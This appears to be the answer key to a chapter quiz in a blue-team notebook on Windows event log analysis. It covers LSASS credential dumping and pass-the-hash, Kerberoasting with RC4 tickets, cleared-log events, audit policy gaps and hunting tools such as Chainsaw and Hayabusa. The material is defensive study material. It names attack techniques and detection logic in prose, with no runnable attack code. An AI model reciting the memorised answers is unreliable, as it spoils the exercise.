
1. It most likely represents **credential theft followed by pass-the-hash / use of stolen credentials**: a tool dumped credentials from LSASS (**T1003.001**, the Sysmon 10 event) and then used them to authenticate with alternate credentials via `runas /netonly`-style logon (**T1550.002 Pass the Hash**, the LogonType 9). The pairing of LSASS access then a NewCredentials logon on a privileged account is a classic compromise chain.
2. **Kerberoasting (T1558.003).** The attacker requests service tickets (4769) for many SPNs encrypted with **RC4 (0x17)** because RC4-encrypted tickets are crackable offline to recover the service account's password. It is "cheap" because the data — 4769 on the DCs — is already collected; you only need to write the rule (burst of RC4 4769 for many distinct SPNs from one account).
3. Fails silently: the **"Office spawns a script interpreter"** and **encoded-PowerShell** detections (Chapters 3–6) rely on the `CommandLine`/`ParentProcessName` in 4688 (and/or Sysmon 1). Fix: enable Group Policy *Audit Process Creation* **and** *Administrative Templates → System → Audit Process Creation → Include command line in process creation events*, and enable PowerShell **Script Block Logging**. (Deploying Sysmon is the robust alternative/complement.)
4. **Chainsaw** and/or **Hayabusa** (Sigma-powered) to hunt the whole EVTX set and produce an **ATT&CK-tagged timeline of suspicious events** in seconds, plus **EvtxECmd** to parse specific logs to CSV for detail. Faster than Event Viewer because they apply hundreds of detection rules across many files at once and output a prioritized, mapped timeline rather than making you manually filter one log at a time.
5. A **1102 means the Security log was cleared** (T1070.001) — an anti-forensics action that is high-signal because legitimate clears are rare and should be change-controlled. You can still recover evidence if logs were **forwarded off-box in real time** (WEF/agent to SIEM) before the clear. The interesting activity is **immediately before 02:14** — attackers clear logs after acting, so the window just prior to the clear is where the intrusion happened.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/blueteam-soc/07-windows-event-log-analysis-for-analysts), with comments and the latest edits.*
